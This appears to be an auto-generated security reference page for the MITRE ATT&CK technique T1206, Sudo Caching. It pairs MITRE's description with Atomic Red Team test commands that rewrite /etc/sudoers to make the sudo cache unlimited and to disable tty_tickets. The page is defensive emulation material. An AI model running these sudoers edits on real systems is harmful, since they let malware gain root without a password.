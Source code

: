 
# Sudo Caching

## Description

### MITRE Description

> The <code>sudo</code> command "allows a system administrator to delegate authority to give certain users (or groups of users) the ability to run some (or all) commands as root or another user while providing an audit trail of the commands and their arguments." (Citation: sudo man page 2018) Since sudo was made for the system administrator, it has some useful configuration features such as a <code>timestamp_timeout</code> that is the amount of time in minutes between instances of <code>sudo</code> before it will re-prompt for a password. This is because <code>sudo</code> has the ability to cache credentials for a period of time. Sudo creates (or touches) a file at <code>/var/db/sudo</code> with a timestamp of when sudo was last run to determine this timeout. Additionally, there is a <code>tty_tickets</code> variable that treats each new tty (terminal session) in isolation. This means that, for example, the sudo timeout of one tty will not affect another tty (you will have to type the password again).

Adversaries can abuse poor configurations of this to escalate privileges without needing the user's password. <code>/var/db/sudo</code>'s timestamp can be monitored to see if it falls within the <code>timestamp_timeout</code> range. If it does, then malware can execute sudo commands without needing to supply the user's password. When <code>tty_tickets</code> is disabled, adversaries can do this from any tty for that user. 

The OSX Proton Malware has disabled <code>tty_tickets</code> to potentially make scripting easier by issuing <code>echo \'Defaults !tty_tickets\' >> /etc/sudoers</code>  (Citation: cybereason osx proton). In order for this change to be reflected, the Proton malware also must issue <code>killall Terminal</code>. As of macOS Sierra, the sudoers file has <code>tty_tickets</code> enabled by default.

## Additional Attributes

* Bypass: None
* Effective Permissions: ['root']
* Network: intentionally left blank
* Permissions: ['User']
* Platforms: ['Linux', 'macOS']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1206

## Potential Commands

```
sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' /etc/sudoers
sudo visudo -c -f /etc/sudoers

sudo sh -c "echo Defaults "'!'"tty_tickets >> /etc/sudoers"
sudo visudo -c -f /etc/sudoers

```

## Commands Dataset

```
[{'command': "sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' "
             '/etc/sudoers\n'
             'sudo visudo -c -f /etc/sudoers\n',
  'name': None,
  'source': 'atomics/T1206/T1206.yaml'},
 {'command': 'sudo sh -c "echo Defaults "\'!\'"tty_tickets >> /etc/sudoers"\n'
             'sudo visudo -c -f /etc/sudoers\n',
  'name': None,
  'source': 'atomics/T1206/T1206.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Sudo Caching': {'atomic_tests': [{'description': 'Sets '
                                                                           'sudo '
                                                                           'caching '
                                                                           'timestamp_timeout '
                                                                           'to '
                                                                           'a '
                                                                           'value '
                                                                           'for '
                                                                           'unlimited. '
                                                                           'This '
                                                                           'is '
                                                                           'dangerous '
                                                                           'to '
                                                                           'modify '
                                                                           'without '
                                                                           'using '
                                                                           "'visudo', "
                                                                           'do '
                                                                           'not '
                                                                           'do '
                                                                           'this '
                                                                           'on '
                                                                           'a '
                                                                           'production '
                                                                           'system.\n',
                                                            'executor': {'command': 'sudo '
                                                                                    'sed '
                                                                                    '-i '
                                                                                    "'s/env_reset.*$/env_reset,timestamp_timeout=-1/' "
                                                                                    '/etc/sudoers\n'
                                                                                    'sudo '
                                                                                    'visudo '
                                                                                    '-c '
                                                                                    '-f '
                                                                                    '/etc/sudoers\n',
                                                                         'name': 'sh'},
                                                            'name': 'Unlimited '
                                                                    'sudo '
                                                                    'cache '
                                                                    'timeout',
                                                            'supported_platforms': ['macos',
                                                                                    'linux']},
                                                           {'description': 'Sets '
                                                                           'sudo '
                                                                           'caching '
                                                                           'tty_tickets '
                                                                           'value '
                                                                           'to '
                                                                           'disabled. '
                                                                           'This '
                                                                           'is '
                                                                           'dangerous '
                                                                           'to '
                                                                           'modify '
                                                                           'without '
                                                                           'using '
                                                                           "'visudo', "
                                                                           'do '
                                                                           'not '
                                                                           'do '
                                                                           'this '
                                                                           'on '
                                                                           'a '
                                                                           'production '
                                                                           'system.\n',
                                                            'executor': {'command': 'sudo '
                                                                                    'sh '
                                                                                    '-c '
                                                                                    '"echo '
                                                                                    'Defaults '
                                                                                    '"\'!\'"tty_tickets '
                                                                                    '>> '
                                                                                    '/etc/sudoers"\n'
                                                                                    'sudo '
                                                                                    'visudo '
                                                                                    '-c '
                                                                                    '-f '
                                                                                    '/etc/sudoers\n',
                                                                         'name': 'sh'},
                                                            'name': 'Disable '
                                                                    'tty_tickets '
                                                                    'for sudo '
                                                                    'caching',
                                                            'supported_platforms': ['macos',
                                                                                    'linux']}],
                                          'attack_technique': 'T1206',
                                          'display_name': 'Sudo Caching'}}]
```

# Tactics


* [Privilege Escalation](../tactics/Privilege-Escalation.md)


# Mitigations

None

# Actors

None
